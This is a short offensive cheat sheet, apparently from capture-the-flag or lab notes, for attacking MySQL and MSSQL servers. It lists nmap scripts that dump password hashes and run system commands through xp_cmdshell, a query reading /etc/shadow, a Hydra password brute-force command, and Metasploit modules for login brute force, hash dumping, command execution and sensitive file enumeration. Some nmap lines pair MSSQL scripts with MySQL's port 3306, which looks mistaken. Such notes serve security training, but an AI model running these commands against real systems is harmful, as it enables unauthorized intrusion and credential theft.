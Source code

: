```bash
nmap -p 3306 --script ms-sql-dump-hashes --script-args mssql.username=<USER>,mssql.password=<PW> <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="ipconfig" <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" <TARGET_IP>
```

```bash
# MYSQL
mysql -h <TARGET_IP> -u <USER>
mysql -h <TARGET_IP> -u root

# Mysql client
help
show databases;
use <DB_NAME>;
select count(*) from <TABLE_NAME>;
select load_file("/etc/shadow");
```

#### Hydra

```bash
hydra -l <USER> -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> mysql
```

#### Metasploit

```bash
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login

## MS Sql
use auxiliary/scanner/mssql/mssql_login
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_exec
use auxiliary/admin/mssql/mssql_enum_domain_accounts

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

## set options depends on the selected module
set USERNAME root
set PASSWORD ""

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE false
set PASSWORD ""

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""

set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
```